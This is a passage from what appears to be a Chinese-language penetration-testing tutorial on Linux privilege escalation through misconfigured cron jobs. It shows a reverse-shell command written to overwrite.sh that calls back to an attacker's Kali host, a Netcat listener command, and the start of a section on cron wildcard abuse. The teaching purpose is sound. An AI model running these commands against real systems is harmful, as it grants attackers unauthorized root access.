     图 12.11 – 用户主目录

    如前述截图所示，我们无法在 **user** 主目录中找到 **overwrite.sh** 脚本。这可能是因为 **root** 用户尚未创建该脚本。无论如何，我们可以自行创建该脚本，并通过 cron 作业以 root 用户身份执行该脚本，从而为我们提供反向 shell。

1.  我们可以创建 **overwrite.sh** 脚本，并插入一个 Bash 命令，为我们提供反向 shell。可以通过在 **user** 主目录中运行以下命令来实现：

    **echo "bash -i >& /dev/tcp/<KALI-IP>/<PORT> 0>&1" > overwrite.sh**

    该命令将添加一个 **bash** 命令，连接到我们在 Kali Linux 虚拟机上的反向监听器。确保替换命令中的字段，填写相应的 IP 地址和端口号。

    在运行上述命令后，**overwrite.sh** 文件应该已经创建，并且它应包含以下截图所示的命令：

    ![图 12.12 – 覆盖文件    ](img/B17389_12_012.jpg)

    图 12.12 – 覆盖文件

    一旦我们创建了这个文件，我们需要使用 Netcat 设置一个反向监听器。

1.  我们可以通过运行以下命令在 Kali 虚拟机上设置反向监听器：

    **nc -nvlp <PORT>**

    确保指定在 **overwrite.sh** 脚本中使用的端口。设置监听器后，我们需要等待几分钟，直到 cron 任务运行。

    一旦 cron 任务被调用，**overwrite.sh**脚本将被执行。我们应该能在我们的监听器上获得一个带有 root 权限的反向 shell，如下图所示：

![图 12.13 – 反向 shell](img/B17389_12_013.jpg)

图 12.13 – 反向 shell

通过这种方式，我们成功地通过利用 crontab **$PATH** 变量中的配置错误提升了权限。这使我们能够执行一个自定义命令，从而在目标系统上获得一个提升的反向 shell。

# 通过 cron 通配符进行权限提升

该权限提升技巧涉及利用执行带有通配符的命令或脚本的 cron 任务。在 Linux 环境中，通配符（*****）用于一次执行多个操作，并且可以以多种不同方式使用。在本节中，我们将探讨如何在配置错误的情况下利用这些通配符来执行恶意命令或脚本。

重要提示
